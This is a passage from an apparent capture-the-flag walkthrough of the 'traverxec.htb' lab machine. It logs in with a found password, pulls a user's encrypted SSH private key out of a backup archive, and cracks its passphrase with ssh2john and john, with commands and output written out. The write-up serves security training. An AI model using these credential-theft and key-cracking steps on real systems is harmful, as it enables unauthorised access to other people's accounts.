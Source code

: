 ![](img/2022-06-11-12-17-17.png)
And we are asked to fill a login form, let's try `david:Nowonly4me`. Success, we can now download the file:
```bash
❯ mv ~/Downloads/backup-ssh-identity-files.tgz Results
❯ cd Results
❯ tar -xf backup-ssh-identity-files.tgz
❯ ls
 home   backup-ssh-identity-files.tgz   david_hash   passwd
❯ cd home/david
❯ ls -la
drwxr-xr-x r3van r3van 4.0 KB Sat Jun 11 12:19:27 2022  .
drwxr-xr-x r3van r3van 4.0 KB Sat Jun 11 12:19:27 2022  ..
drwx------ r3van r3van 4.0 KB Fri Oct 25 23:02:50 2019  .ssh
❯ ls .ssh
 authorized_keys   id_rsa   id_rsa.pub
❯ /bin/cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F
-----END RSA PRIVATE KEY-----
```
We obtained a ssh key for david, so we can now login via ssh:
```bash
❯ cp .ssh/id_rsa ../../id_rsa
❯ cd ../../
❯ chmod 600 id_rsa
❯ ssh david@traverxec.htb -i id_rsa
Enter passphrase for key 'id_rsa': 
```
We can see the target asking for a passphrase, as the id_rsa is encrypted. Using `ssh2john` we can obtain a hash we can try to crack with `john`:
```bash
❯ ssh2john id_rsa > id_rsa_hash
❯ john --wordlist=/usr/share/dict/rockyou.txt id_rsa_hash
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:06 DONE (2022-06-11 12:30) 0.1483g/s 2127Kp/s 2127Kc/s 2127KC/s   yara..*7¡Vamos!
```